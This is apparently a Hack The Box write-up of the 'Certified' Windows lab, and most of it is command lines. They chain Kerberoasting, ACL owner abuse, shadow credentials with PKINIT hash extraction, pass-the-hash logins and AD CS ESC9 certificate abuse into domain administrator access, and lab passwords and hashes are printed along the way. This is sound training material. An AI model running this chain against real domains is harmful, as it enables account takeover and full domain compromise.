 ![Certified](https://labs.hackthebox.com/storage/avatars/28b71ec11bb839b5b58bdfc555006816.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ruycr4ft](https://app.hackthebox.com/users/1253217)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---








- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.41 -oG scan
	nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49683,49713,49737,49770 -sCV -Pn 10.10.11.41 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/562af0c0-6107-4299-8d61-d07a25081056)

- I have access via smb to the IPC$ folder and thanks to that I am able to enumerate the system
	
	```python
	netexec smb 10.10.11.41 -u judith.mader -p judith09 --shares
	```
	
  ![image](https://github.com/user-attachments/assets/0e02d615-3f70-4cf1-9f6b-3aa37acabf86)
	
	```python
	netexec ldap 10.10.11.41 -u judith.mader -p judith09  --bloodhound --collection All --dns-server 10.10.11.41
	```
	
	![image](https://github.com/user-attachments/assets/70950ca1-9d8e-42c5-91d6-183b5133e0d9)

- Before analyzing with bloodhound, I see on which user I can request a TGS as I have valid credentials.
	
	![image](https://github.com/user-attachments/assets/964b2a67-8a1f-475a-b706-73cc3dd90707)
	
	```python
	rdate -n 10.10.11.41; impacket-GetUserSPNs certified.htb/judith.mader:judith09 -request
	```
	
	![image](https://github.com/user-attachments/assets/329bb3ac-ff7d-48e0-8e7c-3d6d62ef3709)

- I can request it from the management_SVC user and sometimes I can break it and get his password. After completing the whole machine I understand why I can sometimes break the TGS and sometimes not. As this is not the intended way to complete the machine I am not going to follow up on this point

- Analyzing with bloodhound I see that I have “WriteOwner” permission on the management group and then it has “GenericWrite” permission on the management_svc user.
- Thanks to the first one I can change the owner of the object and with the second one I can change the user's password without knowing the current one.
	
	![image](https://github.com/user-attachments/assets/847f8569-77d8-4378-b714-26cd12d0d9fd)

- I start by adding the user judith.mader to the management group with owneredit from impacket
	
	```python
	owneredit.py -action write -new-owner 'judith.mader' -target-dn 'CN=management,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
	```
	
	![image](https://github.com/user-attachments/assets/3e47628d-6261-4a3a-81db-51d3c088761a)

- With this I get the user's ticket but I am not able to get his password in clear text.
	
	```python
	rdate -n 10.10.11.41; ./targetedKerberoast.py --dc-ip '10.10.11.41' -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
	```

- By observing that judith has “Owns” and “WriteOwner” permissions on the group managements, and this group has “GenericWrite” permission on the user Management_svc. We can first become a member of the group and get the user's hash. This is known as Kerberos PKINIT.
	
	```python
	pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"  --filename test1
	#request a Ticket-Granting-Ticket (TGT) for the domain controller
	./gettgtpkini.py -cert-pfx test1.pfx -pfx-pass  4l99njREI8ehV7aLoA7a certified.htb/Management_svc Management_svc.ccache
	#set the KRB5CCNAME environment variable,
	export KRB5CCNAME=Management_svc.ccache
	#Using the tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the [Privileged Attribute Certificate (PAC)]which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.
	rdate -n 10.10.11.41; ./getnthash.py -key d85b3ba5fcb9c40d666dd6c4d7413c9273276f039ea2342d32dff2723ad291a1 certified.htb/Management_svc
	```

	![image](https://github.com/user-attachments/assets/3ed89ad0-35f6-441e-97b3-3aede681f85e)

- Having already the hash of the user management_svc, I comment myself on WinRM and I manage to read the first flag.

```python
evil-winrm -i 10.10.11.41 -u Management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

![image](https://github.com/user-attachments/assets/016dc472-d780-4ea5-9bc2-992b10cc6511)

- Having the credentials of this user, we can move laterally to the ca_operatos user by changing its password.
- By having “GenerilcAll” permission on the user ca_operator, I can set the user's password without knowing the current password.
	
	![image](https://github.com/user-attachments/assets/dfb7e7c0-94b0-46b4-92c5-165abf716a1a)
	
	```python
	pth-net rpc password "ca_operator" "newP@ssword2022" -U certified.htb/management_svc%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584" -S dc01.certified.htb
	
	crackmapexec smb 10.10.11.41 -u 'ca_operator' -p 'newP@ssword2022'
	```
	
	![image](https://github.com/user-attachments/assets/0f85e58d-c9cb-4d94-8b78-f486ac269d5f)

- With these credentials we enumerate the system in order to add the certificate part to bloodhound.
		
	```python
	rdate -n 10.10.11.41; certipy-ad req -u ca_operator@certified.htb -p newP@ssword2022 -dc-ip 10.10.11.41  -ca certified-DC01-CA -target certified.htb -template User
	crackpkcs12 -d /usr/share/wordlists/rockyou.txt ca_operator.pfx -t 25
	
	#Downlaod the fork version of bloodhound
	rdate -n 10.10.11.41; certipy-ad find -u ca_operator@certified.htb -p newP@ssword2022 -dc-ip 10.10.11.41 -old-bloodhound
	```

- With the certipy tool I search for any vulnerability in the certificate. It tells me that it may be vulnerable to ESC9 
- With the “find” option you can list AD CS certificate templates, certificate authorities and other settings
	
	```python
	certipy-ad find -u ca_operator -p 'newP@ssword2022' -dc-ip 10.10.11.41 -stdout -enabled -vulnerable
	```
	
	![image](https://github.com/user-attachments/assets/ea342568-037e-41f9-9cf8-f7d2dfbec237)

- To exploit this vulnerability I get help from this [page](https://adminions.ca/books/adcs-abusing-active-directory-certificate-service/page/esc9) that tells me the steps to execute.

	```python
	rdate -n 10.10.11.41; certipy-ad shadow auto -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -account ca_operator
	
	certipy-ad account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn administrator
	
	
	certipy-ad req -username "ca_operator@certified.htb" -hashes "01794af19fd00af4f2528923c4ef08be" -target "certified.htb" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'    
	
	certipy-ad account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn "ca_operator@certified.htb" 
	
	
	rdate -n 10.10.11.41; certipy-ad auth -pfx  ca_operator.pfx -domain certified.htb
	```
	
	![image](https://github.com/user-attachments/assets/fcd30e2a-da51-49ef-9acd-664161b4967c)

	![image](https://github.com/user-attachments/assets/9d3892e7-f36a-4687-bcbe-593785b7ac09)

- After validating and confirming that the ntlm hash is correct for the administrator user, I connect to the system and get to read the second flag
	
	```python
	 evil-winrm -i 10.10.11.41 -u administrator -H "0d5b49608bbce1751f708748f67e2d34"
	```
